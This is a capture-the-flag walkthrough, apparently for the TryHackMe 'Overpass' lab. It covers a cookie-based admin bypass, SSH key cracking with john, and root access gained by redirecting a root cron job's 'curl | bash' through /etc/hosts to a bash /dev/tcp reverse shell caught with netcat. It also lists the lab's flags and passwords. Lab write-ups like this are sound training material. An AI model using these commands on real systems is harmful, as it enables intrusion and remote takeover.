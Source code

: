 # Overpass

> What happens when some broke CompSci students make a password manager?

<br>

Process:
- 1) run Autorecon
  - found:
    - 22
    - 80
- 2) enumerate port 80
  - found "/admin" directory 
  - login is based on cookies and client-side JS
  - bypass this with burpsuite 
  - found encrtyped SSH key 
- 3) decrypt SSH key:
  - `ssh2john id_rsa > hash.txt`
  - `john --wordlist=<wordlist> hash.txt`
  - password = "james13"
- 4) ssh into system
  - `ssh james@<ip>` -> [james13]`
  - `cat user.txt` = **thm{65c1aaf000506e56996822c6281e6bf7}**
- 5) escalate privileges
  - `cat todo.txt` -- stored password in overpass password manager:
    - `overpass` -> [4] to retrieve all passwords 
    - password = "System" 
    - password = "saydrawnlyingpicture"
  - found cronjob that runs as root:
    - "* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash"
  - can inject code to get a root shell 
  - "overpass.thm" in /etc/hosts fils points to localhost (127.0.0.1), can change this to point at my IP
    - in /etc/hosts -> "10.11.31.198:4444 overpass.thm"
  - create reverse shell on own system:
    - `mkdir -p downloads/src && touch downloads/src/buildscript.sh`
    - `echo 'bash -i >& /dev/tcp/10.11.31.198/1234 0>&1' > downloads/src/buildscript.sh`
    - `chmod +x /downloads/src/buildscript.sh`
  - create python http-server listening for connection:
    - `sudo python3 -m http.server 80`
  - setup second netcat listener to catch reverse shell:
    - `nc -lvnp 1234`
- 6) once caught you'll have a root reverse shell
  - `cat root.txt` = **thm{7f336f8c359dbac18d54fdd64ea753bb}**
